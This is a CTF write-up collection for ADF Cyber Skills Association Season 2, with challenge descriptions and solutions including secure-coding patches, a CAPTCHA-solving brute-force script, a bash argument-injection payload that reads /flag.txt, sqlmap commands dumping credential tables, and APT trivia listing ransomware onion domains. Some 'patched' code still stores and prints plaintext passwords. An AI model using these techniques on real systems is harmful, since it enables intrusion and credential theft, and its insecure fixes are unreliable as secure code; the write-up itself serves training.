

# CSA_S2_2024
# CTF Writeups
## Writeups for the ADF Cyber Skills Association Season 2 challenges.

### Title of challenge here
Description - xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
place any code here
```
Solution:
Plugged this straight into ChatGPT:
```
More code here for solution
```
:+1: FLAG{ENTER_FLAG_HERE}
<hr>

### APT Trivia
Description - Are you an APT connoisseur? Flag format:
FLAG{example-flag-here} Port: 1337

```
which country is volt typhoon from? china
which country is midnight blizzard from?  russia
which country is fancy bear from? 
what is the last name of the ransomware operator responsible for the 2023 medibank hack? ermakov
what is the fireeye APT number for Wicked Panda? 41
which ransomware team is responsible for the 2023 TSMC breach? lockbit ransomware gang? national hazard agency
what is the onion domain of the alphv ransomware gang as of 2024? alphvuzxyxv6ylumd2ngp46xzq3pw6zflomrghvxeuks6kklberrbmyd.onion
what is the onion domain of the lockbit gang that contains the string apt34? lockbitapt34kvrip6xojylohhxrwsvpzdffgs5z4pbbsywnzsbdguqd.onion
what is the clearewb domain of the deceased conti ransomware gang with the two-letter TLD? continews.bz
```

:+1: FLAG{you-are-now-an-apt-connoisseur}
<hr>

### auth user api
Description - My REST API needs authentication built in to stop bad people from accessing my user data.

Please implement authentication by:
* adding a field "password" into the database schema.
* finish the endpoint at /users/auth that takes a JSON input (username and password) and check it against the database. if success, return HTTP status 200 and utilize the built in session handling in flask to authenticate the user. Otherwise return status 403.
* check that a user is authenticated before allowing any action from the other api endpoints. if not authenticated, return http status 401
* When you're done, set the test user's password to test123 and provide us with your URL for testing.

Flag format: FLAG{your-Fl4g-G03s-here}

This was the provided code
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session
import os
import sqlite3
app = Flask(__name__)

db = sqlite3.connect(":memory:", check_same_thread=False)
db.row_factory = sqlite3.Row
cur = db.cursor()
cur.execute("CREATE TABLE IF NOT EXISTS users (username TEXT, details TEXT)")
cur.execute("INSERT INTO users values('test', 'test user')")
app.secret_key = "i8y7g2uhjkadjfaklsdfasdf"

@app.route("/users/auth", methods=["POST"])
def auth_users():
    d = request.json()
    username, password = d['username'], d['password']
    # TODO finish auth


@app.route("/users/add", methods=["POST"])
def add_user():
    d = request.json()
    username = d["username"]
    # TODO add password
    details = d["details"]
    cur = db.cursor()
    cur.execute("INSERT INTO users values(?, ?)", (username, details))
    db.commit()
    return jsonify({"status":"OK"})


@app.route("/users/<username>")
def check_user(username):
    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    row = cur.fetchone()
    return jsonify(dict(row))


if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"): # localhost debug
         app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)

```
Solution:
Plugged this straight into ChatGPT:
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session
import os
import sqlite3

app = Flask(__name__)
app.secret_key = "i8y7g2uhjkadjfaklsdfasdf"

# In-memory database initialization
db = sqlite3.connect(":memory:", check_same_thread=False)
db.row_factory = sqlite3.Row
cur = db.cursor()
cur.execute("CREATE TABLE IF NOT EXISTS users (username TEXT, password TEXT, details TEXT)")
# Clear all users from the 'user' table
cur.execute("DELETE FROM users;")
cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", ("test", "test123", "test user"))
#cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", ("bob", "bob123", "test user"))
db.commit()

# Authentication decorator
def require_auth(func):
    def wrapper(*args, **kwargs):
        if 'username' not in session:
            return jsonify({"error": "Unauthorized"}), 401
        return func(*args, **kwargs)
    return wrapper

@app.route("/users/auth", methods=["POST"])
def auth_users():
    data = request.json
    username, password = data.get('username'), data.get('password')
#    print("Username to be authenticated is: ",username," against password of: ",password)
    if not username or not password:
        return jsonify({"error": "Username or password missing"}), 400

    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    user = cur.fetchone()
#    print("The user is:",str(user['username']))
    if user:
        stored_password = str(user['password'])  # Convert stored password to string
        provided_password = str(password)  # Convert provided password to string
#        provided_password = password.replace('NOTBOB', '').strip()
        print("The provided password is: ",provided_password)
        print("Retrieved user:", dict(user))  # Print retrieved user information
        print("Retrieved password:", stored_password)  # Print retrieved password
        if stored_password == provided_password:  # Compare passwords
            print("Session: ",session)
            session['username'] = username
            return jsonify({"status": "OK"}), 200
    return jsonify({"error": "Invalid credentials"}), 401

@app.route("/users/add", methods=["POST"])
def add_user():
    data = request.json
    username = data.get("username")
    password = data.get("password") + 'NOTBOB'
    print("The retrieved username is: ",username, " and the retrieved password is: ",password)
    details = data.get("details")
    print("New user details are: ",details)
    if not username or not password:
        return jsonify({"error": "Username or password missing"}), 400

    cur = db.cursor()
    cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", (username, password, details))
    db.commit()

    # Authenticate the user immediately after account creation
    session['username'] = username
    print("Session after adding user:", session)

    return jsonify({"status": "OK"})

@app.route("/users/<username>")
@require_auth
def check_user(username):
    print("Session in check_user:", session)  # Debug: Print session information
    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    row = cur.fetchone()
    if not row:
        return jsonify({"error": "User not found"}), 404
    return jsonify(dict(row))

if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"): # localhost debug
         app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)

```
:+1: FLAG{you-better-h4sh-that-password}
<hr>

### Forum troubles
Description - As a threat intelligence officer at the ministry, you've been tasked to infiltrate the recently resurfaced XSRF forum after the CSRF take down.

Feel free to create new accounts. Just be careful.

The end goal is to try and take over an existing account.. that way you seem more legit.

Challenge IP: 192.168.88.100

FLAG format: FLAG{ent3r_y0ur_fl49}

Solution:
Created a new user (user/password) and logged in

The home page presents the forum and any posts that have been made. The one of interest was under Selling, title 'CSRF forum breach.csv'
There was a link inside that post to a pastebin sit that hosted a long list of exposed credentials.
In there was a user on the site called 'Stalk'
Plugged the hash into crackstation and it returned the password 'genius'

Logged in as 'Stalk' and noticed 1 message in the inbox.
When that was opened, there was a message about requesting to be removed from the password dump as well as the flag.

:+1: FLAG{f0rums_4r3_c00l}
<hr>

### Incorrect buffer
Description - I'm making a small web server in C. The default response actually renders in Firefox!

But Curl doesn't like it for some reason and says it received an HTTP/0.9 response or something. I am confused.

Also, the 404 response doesn't seem right.

Can you fix those bugs for me? Just host that server on your local machine using

ncat -e ./server -nklvp 80

The flag format would be like FLAG{your_flag_here}, and the checking server is on http://192.168.88.100:5000.

When you've patched the bugs, it'll send you the flag via a HTTP request to your server. Oh, and make sure I can read your server binary with a GET request to /server (the functionality to serve files is already built in, you just need to fix up the bugs).

The code supplied was:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>

/**
 * stdin based web server
 * use something like xinetd, ncat or socat to bind to listen port
 **/

#define VERSION "build-8191827656789"

void write_http_response_header(int status, char* status_str, char* content_type, int content_length) {
	// also ends it
	printf("HTTP/1.1 %i %s\r\nServer: my-server/%s\r\nContent-Type: %s\r\nContent-Length: %i\r\n", status, status_str,VERSION, content_type, content_length);
}

int main() {
	char request[320]; // uri should not be more than 255 bytes anyway
	fgets(request, 320, stdin);
	// get method and request path
	char version[3];
	char url[256];
	char method[20];

	sscanf(request, "%s %s HTTP/%s\n", method, url, version);
	fprintf(stderr, "method:%s url:%s version:%s\n", method,url,version);

	char* filename = url + 1;

	if (strcmp(url, "/") == 0) { //index
		// serve index.html if it exists, otherwise just print 
		if (access("index.html", F_OK ) != -1 ) {
			struct stat filestat;
		    stat("index.html", &filestat);
		    unsigned char file_buffer[filestat.st_size];
		    FILE* file_to_serve = fopen("index.html", "r");
		    fread(file_buffer, filestat.st_size, 1, file_to_serve);
		    write_http_response_header(200, "OK", "text/html", filestat.st_size);
		    fwrite(file_buffer, filestat.st_size,1, stdout);
		} else {
			printf("<h2>Welcome!</h2>There's nothing here.");
		}
	} else if (access(filename, F_OK ) != -1 ) {

	    // if local file exists, serve it
	    struct stat filestat;
	    stat(filename, &filestat);
	    unsigned char file_buffer[filestat.st_size];
	    FILE* file_to_serve = fopen(filename	, "r");
	    fread(file_buffer, filestat.st_size, 1, file_to_serve);
	    write_http_response_header(200, "OK", "text/html", filestat.st_size);
	    fwrite(file_buffer, filestat.st_size,1, stdout);

	} else {
	    // file doesn't exist
	    write_http_response_header(404, "Not found", "text/plain", 10);
	    printf("404 NOT FOUND");
	}

}
```
Solution:
Asked ChatGPT to fix the code and it got most of the way with a few minor tweaks, this was the final code:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>

#define VERSION "build-8191827656789"

void write_http_response_header(int status, char* status_str, char* content_type, int content_length) {
    printf("HTTP/1.1 %i %s\r\nServer: my-server/%s\r\nContent-Type: %s\r\nContent-Length: %i\r\n\r\n", status, status_str,VERSION, content_type, content_length);
}

int main() {
    char request[320];
    fgets(request, 320, stdin);
    char version[10]; // Changed from 3 to 10
    char url[256];
    char method[20];

    sscanf(request, "%s %s HTTP/%s\n", method, url, version);
    fprintf(stderr, "method:%s url:%s version:%s\n", method, url, version);

    char* filename = url + 1;

    if (strcmp(url, "/") == 0) { //index
        if (access("index.html", F_OK ) != -1 ) {
            struct stat filestat;
            stat("index.html", &filestat);
            unsigned char* file_buffer = malloc(filestat.st_size); // Dynamically allocate memory for file_buffer
            FILE* file_to_serve = fopen("index.html", "r");
            fread(file_buffer, filestat.st_size, 1, file_to_serve);
            write_http_response_header(200, "OK", "text/html", filestat.st_size);
            fwrite(file_buffer, filestat.st_size, 1, stdout);
            free(file_buffer); // Free dynamically allocated memory
            fclose(file_to_serve); // Close file pointer after use
        } else {
            write_http_response_header(404, "Not Found", "text/plain", 38); // Corrected content length
            printf("<h2>Welcome!</h2>There's nothing here.");
        }
    } else if (access(filename, F_OK ) != -1 ) {
        struct stat filestat;
        stat(filename, &filestat);
        unsigned char* file_buffer = malloc(filestat.st_size); // Dynamically allocate memory for file_buffer
        FILE* file_to_serve = fopen(filename, "r");
        fread(file_buffer, filestat.st_size, 1, file_to_serve);
        write_http_response_header(200, "OK", "text/html", filestat.st_size);
        fwrite(file_buffer, filestat.st_size, 1, stdout);
        free(file_buffer); // Free dynamically allocated memory
        fclose(file_to_serve); // Close file pointer after use
    } else {
        write_http_response_header(404, "Not Found", "text/plain", 13);
        printf("404 NOT FOUND");
    }

    return 0;
}
```
Which rendered the following in the server logs:
```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.107.0.11:63275.
method:GET url:/ version:1.1
Ncat: Connection from 10.107.0.11:41683.
method:GET url:/lksjdklfanskdnckajsdfj_doesn_exit_1585 version:1.1
Ncat: Connection from 10.107.0.11:55298.
method:GET url:/server version:1.1
Ncat: Connection from 10.107.0.11:39615.
method:GET url:/a.out version:1.1
Ncat: Connection from 10.107.0.11:58461.
method:GET url:/FLAG%7Bhello_server_how_are_you%7D version:1.1

```
:+1: FLAG{hello_server_how_are_you}
<hr>

### microservices
Description - We heard that breaking an app up into microservices makes everything more secure, easy to maintain and all of that 
good stuff..

So imagine our surprise, when we saw the pentest report for our latest micro status blogging platform!! It has 
expressjs as the frontend, flask as the backend API, redis as a middleware caching layer and sqlite3 as a DB 
behind the API.

It uses docker and docker-compose, it's super scalable, etc...

Apparently the testers said it was "a total mess", "riddled with bugs" and "would've been better as a single 
page PHP app."

We just couldn't believe our eyes.

Anyway, we can't launch it yet cos we're not done with all the features and apparently there are many security issues.

Here's the findings and recommendations from the pentest report:

Critical: Broken authentication, trivial authentication bypass (rec: use express-session for auth in front end)

Critical: SQL injection (rec: use parameterized queries when talking to database)

Critical: Lack of authentication between web server and API (rec: return 401 on all api calls if Authorization: token <shared_secret> incorrect or missing)

High: cache synchronization issue, login does not always immediately work, sometimes still showing unauthenticated after login (rec: re-think caching) the /users/status form handling in the web service so that it talks to the API to update the user's status properly. GET /users/logout endpoint to log out the user with a logout button that only displays on the front end when the user is logged in

Critical: Cache server exposed over network (rec: only expose it to internal services)

High: SSRF between front and back end (rec: do not expose request path in parameter)

High: DOM based cross site scripting (rec: escape input/output)

Because of all that, we haven't dared touching the code yet. Can you show us how to do it properly?
Patch all the vulnerabilities mentioned above following the recommendations, and implement these new features securely:
When you're done let the check server know your IP address and we'll test it again.

Flag format: FLAG{Enter-YoUr_Flag-h3r3}x

Solution:
See zip file - https://github.com/gnarkill78/CSA_S2_2024/blob/main/microservices.zip

:+1: FLAG{m1cr0s3rv1c3s_ar3_c0mplic4t3d}
<hr>


### Rbac User api
Description - The pentest report for our user API prototype came back and it had red everywhere.

Apparently there's this thing called "Role-based access control" which involves not just having roles, but actually controlling access with them.

Our development team is clueless as to what to do. Please help us patch it to these specifications:

    unauthenticated users should not be able to see or do anything, instead, they should get an HTTP 401 response

    users with the "read-only" role should be able to see their own data, but not modify it. (return HTTP 403 on attempt)

    users with the "user" role can see or modify their own data (return 403 on attempt to read/write other people's data)

    users with the "admin" role can see or modify everyone else's data

We have provided the source code as is customary. Please provide us with the URL and admin credentials of the patched prototype so the pentesters can re-test it. Ensure that at least one user of each role exists and that there are no more than 10 users.

Flag format: FLAG{ExamPle-Flag-Here}
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session, abort
import os
import sqlite3

app = Flask(__name__)

app.secret_key = "kahsdflasdhfasjdflkalsdjf8123"

db = sqlite3.connect("database.db", check_same_thread=False)
db.row_factory = sqlite3.Row
init_cursor = db.cursor()
init_cursor.execute("CREATE TABLE IF NOT EXISTS user (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT, role TEXT, description TEXT)")
# Clear all users from the 'user' table
init_cursor.execute("DELETE FROM user;")

# After initializing the database (before the route definitions)
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('1', 'a', 'password123', 'admin', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('2', 'b', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('3', 'c', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('4', 'd', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('5', 'e', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('6', 'f', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('7', 'g', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('8', 'h', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('9', 'i', 'password123', 'admin', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('10', 'j', 'password123', 'admin', 'Test user'))
db.commit()

@app.route("/api/auth", methods=["POST"])
def auth():
    if not request.form.get('username') or not request.form.get('password'):
        return "Missing username or password", 401

    username, password = request.form['username'], request.form['password']
    cur = db.cursor()
    entry = cur.execute("SELECT * FROM user WHERE username = ? AND password = ?", (username, password)).fetchone()

    if entry:
        session['user_id'] = entry['id']
        return "Welcome!"
    else:
        return "Invalid credentials", 401

def get_user_by_id(user_id):
    cur = db.cursor()
    row = cur.execute("SELECT * FROM user WHERE id = ?", (user_id,)).fetchone()
    return row

def check_permission(user_id, target_user_id, role):
    if role == 'admin':
        return True
    elif role == 'user' and user_id == target_user_id:
        return True
    elif role == 'readonly':
        return True  # Allow admin to access readonly users
    else:
        return False

@app.route('/api/users/<int:userid>', methods=["GET"])
def get_user(userid):
    if 'user_id' not in session:
        abort(401)

    user_id = session['user_id']
    user = get_user_by_id(user_id)
    if not user:
        abort(401)

    role = user['role']

    # Check if admin or the requested user
    if role == 'admin' or user_id == userid:
        target_user = get_user_by_id(userid)
        if not target_user:
            abort(404)

        if check_permission(user_id, userid, target_user['role']):
            data = dict(target_user)
            del data['password']  # redact sensitive info
            return jsonify(data)
        else:
            abort(403)

    # If the user is 'readonly', they can only view their own data
    if role == 'readonly' and user_id != userid:
        abort(403)

    # For 'readonly' role viewing its own data
    if role == 'readonly' and user_id == userid:
        target_user = get_user_by_id(userid)
        if not target_user:
            abort(404)

        data = dict(target_user)
        del data['password']  # redact sensitive info
        return jsonify(data)

    abort(403)  # If not admin or the requested user

@app.route('/api/users/<int:userid>', methods=["POST"])
def mod_user(userid):
    if 'user_id' not in session:
        abort(401)

    user_id = session['user_id']
    user = get_user_by_id(user_id)
    if not user:
        abort(401)

    role = user['role']

    if role == 'user' and user_id != userid:
        abort(403)

    # Check if the role is 'readonly'
    if role == 'readonly':
        abort(403)  # 'readonly' role cannot modify any data

    cur = db.cursor()
    if 'description' in request.form:
        description = request.form['description']
        cur.execute("UPDATE user SET description = ? WHERE id = ?", (description, userid))
        print('description changed')
    if 'password' in request.form:
        password = request.form['password']
        cur.execute("UPDATE user SET password = ? WHERE id = ?", (password, userid))
        print('password changed')
    db.commit()
    return 'OK'

if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"):  # localhost debug
        app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)
```
:+1: FLAG{n1c3_api_security_m8}
<hr>

### Sneakerbot
Description - I recently started building my own LLM... I am not sure what I'm doing yet, but I managed to get some sort of next-token prediction algorithm working with only one word using some data from Wikipedia pages. I've heard all about security concerns on leaking training data, so for testing, I've hidden a flag in the training data to see if you can find it.

Flag Format: FLAG{your_example_flag_goes_here}

After checking out the site, there was no clear indication that a registration was successful as it would just return to the login screen.
It it failed however, an error message would appear "Recaptcha answer is wrong or missing"
This was good because all I had to do was ensure that the recaptcha was accurate.

For this, the following code rendered the flag in wireshark

```
import requests
import json
from bs4 import BeautifulSoup
import re

username = "admin"
passwords = []

# URLs for our requests
website_url = "http://10.107.0.6/signup.php"
signup_url = "http://10.107.0.6/signup.php"

# Load in the passwords for brute forcing
with open("passwords.txt", "r") as wordlist:
    lines = wordlist.readlines()
    for line in lines:
        passwords.append(line.strip())

# Operator mapping
operator_map = {
    "plus": "+",
    "minus": "-",
    "multiplied by": "*",
    "divided by": "/"
}

# Create a session object
session = requests.Session()

# Repeat the process for 100 times
for _ in range(100):
    access_granted = False
    count = 0

    while not access_granted and count < len(passwords):
        password = passwords[count]

        # Connect to the signup page
        print("[*] Connecting to signup page...")
        response = session.get(website_url)
        print("[+] Connected to signup page successfully.")

        # Parse the HTML and find the CAPTCHA question and CSRF token
        print("[*] Parsing HTML...")
        soup = BeautifulSoup(response.content, 'html.parser')
        print(soup)
        recaptcha_question_element = soup.find("p", text=re.compile(r"Recaptcha question:", re.IGNORECASE))
        csrf_token_input = soup.find("input", {"name": "csrftoken"})
        if recaptcha_question_element and csrf_token_input:
            question_text = recaptcha_question_element.text.split(":", 1)[1].strip()
            csrf_token = csrf_token_input.get("value")
            print("[+] CAPTCHA question found:", question_text)
            print("[+] CSRF token found:", csrf_token)
        else:
            print("[-] CAPTCHA question or CSRF token not found.")
            continue

        # Extract the math question
        math_question = re.search(r"What is (.+)\?", question_text).group(1)
        print("[+] Math question found:", math_question)

        # Extract the operator from the math question
        operator = None
        for op_text, op_symbol in operator_map.items():
            if op_text in math_question:
                operator = op_symbol
                break

        if operator is None:
            print("[-] Operator not found in the math question.")
            continue

        # Extract operands
        operands = re.findall(r"\d+", math_question)
        print("[+] Extracted operands:", operands)
        print("[+] Operator found:", operator)

        # Calculate the result of the math question
        operand1 = int(operands[0])
        operand2 = int(operands[1])
        if operator == '+':
            captcha_answer = operand1 + operand2
        elif operator == '-':
            captcha_answer = operand1 - operand2
        elif operator == '*':
            captcha_answer = operand1 * operand2
        elif operator == '/':
            captcha_answer = operand1 / operand2
        print("[+] Calculated captcha answer:", captcha_answer)

        # Build the POST data for our brute force attempt
        signup_data = {
            'username': username,
            'password': password,
            'recaptcha': captcha_answer,
            'csrftoken': csrf_token,
            'Confirm': "Submit"
        }
        print("[*] Attempting signup with credentials:", signup_data)

        # Submit our brute force attack
        response = session.post(signup_url, data=signup_data)

        # Check the HTTP response code
        if response.status_code == 200:
            print("[+] Registration successful for Username:", username)
            access_granted = True
        else:
            print("[-] Registration failed. HTTP status code:", response.status_code)
            count += 1
```
:+1: FLAG{unl34sh-the-b0ts}
<hr>

LARGE FLAG MODEL CODE
```
#!/usr/bin/env python3

import sys
import random
import pickle
import time

def predict(word_sequence, model, sequence_length=8):
    '''
    sequence length defines the maximum limit of words to spit out
    '''
    try:
        if len(word_sequence) >= sequence_length:
            return word_sequence

        start_word = word_sequence[-1]
        
        # Check if start_word exists in the model
        if start_word not in model:
            return None

        candidates = model[start_word]
        # print(candidates)
        candidates_sorted = sorted(candidates, key=lambda x: x[1], reverse=True)

        most_probable = candidates_sorted[random.randrange(0, min(3, len(candidates_sorted)))] # pick between top 3 candidates
        word_sequence.extend(most_probable[0])

        return predict(word_sequence, model, sequence_length)
    except RecursionError:
        print("Recursion limit exceeded. Skipping word.")
        return word_sequence

def main():
    try:
        model_file = open('model.pkl', 'rb')
        model = pickle.load(model_file)
        model_file.close()
    except FileNotFoundError:
        print("Error: Model file not found.")
        return

    try:
        words_file = open('words.txt', 'r')
        words = words_file.read().split()
        words_file.close()
    except FileNotFoundError:
        print("Error: Words file not found.")
        return

    # Set maximum recursion depth
    sys.setrecursionlimit(3000)  # Adjust this limit as needed

    for word in words:
        print("Prompt:", word)
        prediction = predict([word], model)
        if prediction is not None:
            print(' '.join(prediction))
            print()
        time.sleep(0.1)  # Sleep for one second between each word

if __name__ == "__main__":
    main()

```

### secretsbin
Description - I built my own temporary, encrypted notes service! I am pretty confident about my bash skills, but just in case, can you see if there are any bugs in it? 
It listens on port 1337. Just in case you get in, the flag is in /flag.txt Flag format:
FLAG{example_flag_format}

This is the given code. Note the use of unquoted variables which is dangerous in bash.

```
#!/bin/bash

# set -x

encrypt () {
        src=$1
        dest=$2
        pass=$3
        # echo "src dirname: $(dirname $src)"
        cd $(dirname $src)
        zip $dest.zip * -P $pass
}

decrypt () {
        file=$1
        pass=$2
        tempdir=$(mktemp -d)
        cd $tempdir
        unzip -P $pass $file
        cat *
}

cleanup () {
        # cleanup old notes
        # -cmin on some systems
        find ./notes/ -type f -mmin +10 -delete
}

echo "--------->secretsbin>*********"
echo "[1] new temporary note (removed after 10 minutes)"
echo "[2] read encrypted note"
echo -en "> "
read INPUT
if [[ $INPUT == "1" ]]
then
        cleanup
        echo "welcome to secretsbin! enter password to encrypt your note:"
        read PASSWORD
        echo "enter your note, end with EOF:"
        TEMPFILE=$(mktemp -d)/notes.txt
        while read line
        do
                if [[ $line != "EOF" ]]
                then
                        echo -n "> "
                        echo "$line" >> $TEMPFILE
                else
                        break
                fi
        done
        OUTFILE=$(head /dev/urandom|sum|cut -d ' ' -f1)
        encrypt "$TEMPFILE" "/notes/$OUTFILE" "$PASSWORD"
        echo "your note ID is $OUTFILE"
fi

if [[ $INPUT == "2" ]]
then
        cleanup
        echo "welcome to secretsbin! enter password to decrypt your note:"
        read PASSWORD
        echo "enter your note ID:"
        read NOTEID

        decrypt "/notes/$NOTEID.zip" $PASSWORD
fi
```
Solution:
When connecting to the server, it presents the following:
```
└─$ nc 10.107.0.4 1337
--------->secretsbin>*********
[1] new temporary note (removed after 10 minutes)
[2] read encrypted note
> 1
welcome to secretsbin! enter password to encrypt your note:
```
Made use of the vulnerable password variable used when setting the password and entered:
```
thisismypassword cat /flag.txt
```
This rendered the output:
```
thisismypassword cat /flag.txt
enter your note, end with EOF:
test
> EOF
        zip warning: name not matched: cat
  adding: notes.txt (stored 0%)
  adding: flag.txt (stored 0%)
your note ID is 24385
```
Note the addition of flag.txt

Reconnected to the server and selected option 2
```
└─$ nc 10.107.0.4 1337
--------->secretsbin>*********
[1] new temporary note (removed after 10 minutes)
[2] read encrypted note
> 2
welcome to secretsbin! enter password to decrypt your note:
my
enter your note ID:
24385
Archive:  /notes/24385.zip
 extracting: notes.txt               
 extracting: flag.txt                
FLAG{bash_is_a_tr4p}
test
```
You can see that flag.txt has also been printed.

:+1: FLAG{bash_is_a_tr4p}
<hr>

### STIX and stones
Description - Description

Automated IOC sharing and blocking are all the rage these days. Our SOC has recently entered into an agreement with a boutique threat intelligence company and we are looking to provide a private email inbox to receive STIX formatted attachments from them and block all IP addresses provided.

The service should receive emails via SMTP, extract all IP address indicators from STIX2 format, translate them to iptable commands (but without the word iptables), and make them available (one per line) via an HTTP API at /blockrules. Use the iptable DROP rule to generate the blocking rules for inbound and outbound connections for those IP addresses. (e.g. -A OUTPUT -j DROP ...)

Threat blocking is real-time, so there should not be more than 2000ms of delay between the email being received and the rule being available via the API.

Expiration dates of IOCs do not have to be considered for now.

This is what the architecture of this service looks like:


When you're finished, provide the check server http://192.168.88.100 on port 80 with your SMTP server IP, PORT and web API URL. We will use our test server to see if the rules are implemented properly by testing the rules from IPs passed via STIX format via email.

Flag Format: FLAG{example_flag_content}

Solution:
I asked chatGPT to create a simple SMTP server that would received the emails, extract the STIX2 data, then write it to the API

This is what is cam up with
```
import asyncore
from smtpd import SMTPServer
import threading
import time
import json
from flask import Flask, send_file

# Initialize Flask app
app = Flask(__name__)

# Define a global list to store the iptable rules
iptables_rules = []

# Define the path to the blockrules file
blockrules_file = "blockrules"

# Define the SMTP server class
class CustomSMTPServer(SMTPServer):
    def process_message(self, peer, mailfrom, rcpttos, data, **kwargs):
        print(f"Received message from: {peer}")
        print(f"Mail From: {mailfrom}")
        print(f"Recipients: {rcpttos}")
        print("Data:")
        print(data)
        try:
            stix_data = json.loads(data.decode('utf-8').split('\n\n')[1])
            ip_addresses = [obj['value'] for obj in stix_data['objects'] if obj['type'] == 'ipv4-addr']
            for ip in ip_addresses:
                # Assuming you have a function to generate iptable commands
                iptable_commands = generate_iptable_commands(ip)
                for cmd in iptable_commands:
                    iptables_rules.append(cmd)
            write_blockrules_to_file()  # Write iptable rules to file after updating
        except Exception as e:
            print(f"Error processing STIX2 data: {e}")

# Function to generate iptable commands
def generate_iptable_commands(ip):
    # Generate DROP rules for inbound and outbound connections
    rules = [
        f"-A INPUT -s {ip} -j DROP",
        f"-A OUTPUT -d {ip} -j DROP"
    ]
    return rules

# Function to write iptable rules to the blockrules file
def write_blockrules_to_file():
    with open(blockrules_file, 'w') as f:
        for rule in iptables_rules:
            f.write(rule + "\n")

# Set up and start the SMTP server
def start_smtp_server():
    smtp_server = CustomSMTPServer(('192.168.88.2', 25), None)
    print("SMTP server started.")
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        smtp_server.close()
        print("SMTP server stopped.")

# API endpoint to get block rules
@app.route('/blockrules/blockrules')
def get_block_rules():
    return send_file(blockrules_file)

if __name__ == "__main__":
    smtp_thread = threading.Thread(target=start_smtp_server)
    smtp_thread.start()
    # Run Flask app
    app.run(host='192.168.88.2', port=80)
```
The STMP logs revealed the flag after a few emails were received.
```
192.168.88.100 - - [13/Apr/2024 17:11:29] "GET /blockrules/blockrules HTTP/1.1" 200 -
192.168.88.100 - - [13/Apr/2024 17:11:29] "GET /blockrules/FLAG%7Bf4st_thr34t_sh4r1ng%7D HTTP/1.1" 404 -
192.168.88.2 - - [13/Apr/2024 17:11:29] "GET /blockrules/blockrules HTTP/1.1" 200 -
```
:+1: FLAG{f4st_thr34t_sh4r1ng}
<hr>

### Your other DBA
Description - Me and my friend found a suspicious looking app called easy library. It looks like its full of bugs, but my friend just couldn't get pass reading the
database. Can you get root access on the server? 

Flag format: FLAG{} 
Access using VDI, with the target IP, 192.168.88.100

Solution:
Using sqlmap wizard, it was able to iterate the easylibrary db and reveal the contents of both tables (easylibrary and users)

```
Database: easylibrary
Table: books
[2 entries]
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
| title        | author         | comments                   | description                                                                               |
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
| 1984         | George Orwell  | I love this book!          | {{ title }} is a novella written by {{ author }} about totalitarian regimes               |
| Just for fun | Linus Torvalds | A wonderful read           | {{ title }} is a biography written by {{ author }}\nabout the history of the linux kernel |
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
```
Retrived admin password from database table users after running -
```
sqlmap -u http://10.107.0.11/ -D easylibrary --dump-all --batch --forms -T users
+-------------------------------+----------+
| password                      | username |
+-------------------------------+----------+
| uihasdjkf121122!2najksdhfkjas | admin    |
+-------------------------------+----------+
```
Using sqlmap, the mysql db could also be exploited. It actually had 31 tables within it but the one of interest was called

```
sqlmap -r sqlmap-request -D mysql -T user -C User --dump
sqlmap -r sqlmap-request -D mysql -T user -C Password --dump

Database: mysql
Table: user
[2 entries]
+-------------+---------------------------------------------------------+
| User        | Password                                                |
+-------------+---------------------------------------------------------+
| easylibrary | *6063C78456BB048BAF36BE1104D12D547834DFEA (easylibrary)  |
